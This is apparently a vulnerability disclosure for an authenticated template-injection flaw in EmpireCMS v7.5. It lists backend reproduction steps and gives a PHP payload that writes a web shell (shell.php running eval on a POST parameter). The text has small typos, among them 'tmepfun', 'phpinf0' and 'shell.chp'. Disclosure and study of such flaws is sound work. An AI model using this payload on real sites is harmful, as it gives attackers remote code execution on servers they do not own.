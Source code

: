 # EmpireCMS-Getshell

### Introduction to EmpireCMS 

EmpireCMS is an open-source content management system (CMS).

download link：http://www.phome.net/downcenter/empirecms/ecms75/download/EmpireCMS_7.5_SC_UTF8.zip

### Vulnerability description

EmpireCMS v7.5 has a template injection vulnerability. An authenticated remote attacker can exploit this vulnerability to inject malicious content through the PreviewIndexpage class in e/class/tempfun.php, thereby getting the shell.

### vulnerability analysis

The vulnerability exists in line 425 of tmepfun. Due to the lack of effective validation of the parameter content passed in by the frontend, malicious content can be referenced and generate an index page template file, resulting in malicious content being written

![image-20231206113402099](https://github.comSecBridge/Cms_Vuls/blob/main/EmpireCMS/image/image-20240730103644857.png)

### Vulnerability reproduction

1、Log in to the backend  -> check "模板" -> "管理首页方案" -> Modify template content:

```
Vulnerability verification POC ：<?php phpinf0(); ?>
```

![image-20240730104109557](EmpireCMS-Getshell.assets/image-20240730104109557.png)

2、After submitting, click "预览"：

![image-20240730104436737](EmpireCMS-Getshell.assets/image-20240730104436737.png)

The injected malicious content is referenced and executed：

![image-20240730104534523](EmpireCMS-Getshell.assets/image-20240730104534523.png)

3、The server generates indexpage temporary file，The path is：/e/data/tmp/indexpage{tempid}.php

![image-20240730104922561](EmpireCMS-Getshell.assets/image-20240730104922561.png)

4、POC and change to：

```
test <?php fputs(fopen('shell.php','w'),'<?php eval($_POST[9527])?>');?>
```

Automatically generate shell.chp in e/admin

![image-20240730110245130](EmpireCMS-Getshell.assets/image-20240730110245130.png)



![image-20240730110005192](EmpireCMS-Getshell.assets/image-20240730110005192.png)
